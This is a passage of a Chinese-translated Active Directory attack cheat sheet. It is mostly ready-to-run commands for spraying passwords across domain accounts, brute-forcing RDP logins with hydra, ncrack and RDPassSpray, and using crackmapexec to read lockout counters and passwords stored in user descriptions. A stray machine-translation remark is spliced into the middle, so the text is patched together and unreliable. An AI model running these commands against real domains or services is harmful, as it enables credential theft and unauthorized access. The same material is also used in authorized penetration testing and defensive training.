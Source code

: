 * 使用`DomainPasswordSpray`对域中所有用户喷洒一个密码。

  ```powershell
  # https://github.com/dafthack/DomainPasswordSpray
  Invoke-DomainPasswordSpray -Password Summer2021!
  # /!\ 注意账户锁定！
  Invoke-DomainPasswordSpray -UserList users.txt -Domain domain-name -PasswordList passlist.txt -OutFile sprayed-creds.txt
  ```

* 使用`SMBAutoBrute`。

  ```powershell
  Invoke-SMBAutoBrute -UserList "C:\ProgramData\admins.txt" -PasswordList "Password1, Welcome1, 1qazXDR%+" -LockoutThreshold 5 -ShowVerbose
  ```

### 针对RDP服务喷洒密码

* 使用[RDPassSpray](https://github.com/xFreed0m/RDPassSpray)针对RDP服务。

  ```powershell
  git clone https://github.com/xFreed0m/RDPassSpray
  python3 RDPassSpray.py -u [USERNAME] -p [PASSWORD] -d [DOMAIN] -t [TARGET IP]
  ```

* 使用[hydra](https://github.com/vanhauser-thc/thc-hydra)和[ncrack](https://github.com/nmap/ncrack)针对RDP服务。

```powershell
hydra -t 1 -V -f -l administrator -P /usr/share/wordlists/rockyou.txt rdp://10.10.10.10
ncrack –connection-limit 1 -vv --user administrator -P password-file.txt rdp://10.10.10.10
```

根据您上传的文档进行翻译，以下是文档内容的中文翻译版本：

### BadPwdCount属性

> 用户尝试使用错误密码登录账户的次数。值为0表示该值未知。

```powershell
$ crackmapexec ldap 10.0.2.11 -u '用户名' -p '密码' --kdcHost 10.0.2.11 --users
LDAP        10.0.2.11       389    dc01       访客      badpwdcount: 0 pwdLastSet: <从未>
LDAP        10.0.2.11       389    dc01       krbtgt     badpwdcount: 0 pwdLastSet: <从未>
```

## AD用户注释中的密码

```powershell
$ crackmapexec ldap domain.lab -u '用户名' -p '密码' -M user-desc
$ crackmapexec ldap 10.0.2.11 -u '用户名' -p '密码' --kdcHost 10.0.2.11 -M get-desc-users
GET-DESC... 10.0.2.11       389    dc01    [+] 找到以下用户: 
GET-DESC... 10.0.2.11       389    dc01    用户: 访客 描述: 用于访问计算机/域的内置访客账户
GET-DESC... 10.0.2.11       389    dc01    用户: krbtgt 描述: 密钥分发中心服务账户
```

在大多数AD模式中似乎有3-4个字段是通用的：`UserPassword`、`UnixUserPassword`、`unicodePwd`和`msSFU30Password`。
